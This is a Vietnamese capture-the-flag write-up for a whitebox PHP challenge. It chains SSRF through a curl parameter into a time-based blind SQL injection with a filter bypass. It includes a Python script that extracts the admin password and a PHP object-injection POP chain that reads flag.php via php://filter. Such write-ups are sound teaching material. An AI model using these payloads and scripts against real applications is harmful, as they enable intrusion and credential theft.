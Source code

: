#  Happy Birthday KCSC
## Description
Whitebox
## Solution
Trước tiên ta sẽ review hết qua source code:

![img](./img/Screenshot%20from%202022-03-06%2021-16-31.png)

- ``index.php``: có param ``url`` được pass qua class ``CURL`` nằm trong ``curl.php``.
- ``curl.php``: ``curl_exec`` ở đây sẽ chỉ trả về giá trị bool để check xem CURL đến thành công hay không
- ``login.php``: nó  tạo query bằng ``bound parameters`` nên có vẻ không sqli được ở đây 
- ``/api/checkUser.php``: Đây rồi, nó nối trực tiếp câu truy vấn SQL động với param id, và nếu `` $_SERVER['REMOTE_ADDR']`` của ta là localhost, ta có thể thực hiện sqli. Đây chính là nơi mọi thứ bắt đầu :v.

Exploit: Ta có thể tận dụng trang index để curl đến ``/api/checkUser.php``. Còn để thực hiện được sqli, cụ thể ở đay là dạng **time based**, ta sẽ bypass cái ``preg_match`` kia bằng case insensitive và ``/**/``

payload: ``http://localhost/api/checkUser.php?id=1/**/AnD/**/SLEEP(5)``

success rồi, giờ viết script để dump mật khẩu thằng admin thui

Script:
```
#!python3
import requests
import string
sess=requests.Session()
url="http://localhost:10666/index.php"
i=1
passwd=''
while True:
    for c in string.printable:
        data={
            'url':f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/passwoRd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{c}',SLEEP(3),1)",
            'submit':'Submit'
        }     
        try:
            r=sess.post(url,data=data,timeout=3)
        except:
            i+=1
            passwd+=c
            print(passwd)
            break
```

![img](./img/Screenshot%20from%202022-03-06%2023-05-38.png)

``password``:``admin_password_foR_testing``

Giờ mình có thể lấy credential này để chui vào trang admin 

Review src code :
- ``admin.php``: Nhìn sơ qua thì có thể thấy rằng đây là dạng deserialize, cụ thể ở đây là thông qua ``$_COOKIE[data]``, Ngoài ra nó còn có filter lọc ``\x00``, theo mình đọc ở trang web [này](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/) thì %00 là null-byte và ``%00sometext%00`` chính là cách biểu diễn của 1 private property, tạm thời cứ thế đã. chui tiếp vao ``chain.php`` nào
- ``chain.php``: Có tất cả 5 classes : ``File``, ``Url``, ``Func1``, ``Func2``, ``Source``, mỗi class đều có phương thức magic method, vậy mục đích của ta ở đây là lợi dụng các magic method này để tấn công POP.

Reference:
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://www.php.net/manual/en/language.oop5.magic.php

Các magic method được sử dụng trong bài:

-``__construct()``: gọi khi khởi tạo đối tượng.
- ``__destruct()``: gọi khi hủy đối tượng.
- ``__get()``: khi đọc dữ liệu từ một thuộc tính không được phép truy cập.
- ``__toString()``: phương thức này giúp class chỉ định xem sẽ in ra cái gì khi nó được dùng.
- ``__invoke()``:phương thức này được gọi khi một lệnh cố gắng gọi một đối tượng như một hàm.
- ``__wakeup``: được gọi khi unserialize() đối tượng.

Khi unserialize thì ``__wakeup()`` sẽ được gọi đầu tiên, vậy ta sẽ khởi tạo tại ``Func2`` trước, và Class mình cần trigger cuối cùng là ``File`` bời vì ta có thể lợi dụng ``include`` để thực hiện LFI (mình đã thử RCE thông qua data:// nhưng mà nó đã set ``allow_url_include=0`` :( ). Giờ thì viết script thui, à mà quên như đã nhắc ở trên, ta còn phải chỉnh property từ private thành public để bypass cái preg_match

```
<?php

class File {
	public $file;

	public function __toString() {
		if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
			include($this->file);
		}
		return "Ahihhii";
	}
}


class Url {
	public $url;

	public function __construct($url) {
		$this->url = $url;
	}

	public function checkUrl() {
		if (preg_match('/[http|https]:\/\//', $this->url))
			return true;
		else
			return false;
	} 
}


class Func1 {
	public $param1;
	public $param2;

	public function __get($key) {
		$key = $this->param2;
		return $this->param1->$key();
	}
}

class Source {
	public $source;

	public function __construct($s) {
		$this->source = $s;
	}
	public function __invoke() {
		return $this->source->method;
	}
}


class Func2 {
	public $param;

	public function __wakeup() {
		$function = $this->param;
		return $function();
	}
}
$f= new File(); //__tostring
$f->file = 'pHp://FilTer/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64


$func1= new Func1(); // goi tu source qua __get
$func1->param1 = $f;
$func1->param2 = '__toString';


$src = new Source($func1); // goi tu func2 qua __invoke

$func2 = new Func2(); //_wakeup
$func2->param = $src;


$payload = serialize($func2); 
//var_dump((serialize($payload)));
echo base64_encode($payload);

?>
```

![img](./img/Screenshot%20from%202022-03-07%2000-14-00.png)

![img](./img/Screenshot%20from%202022-03-07%2000-14-44.png)

flag: KCSC{real_flag}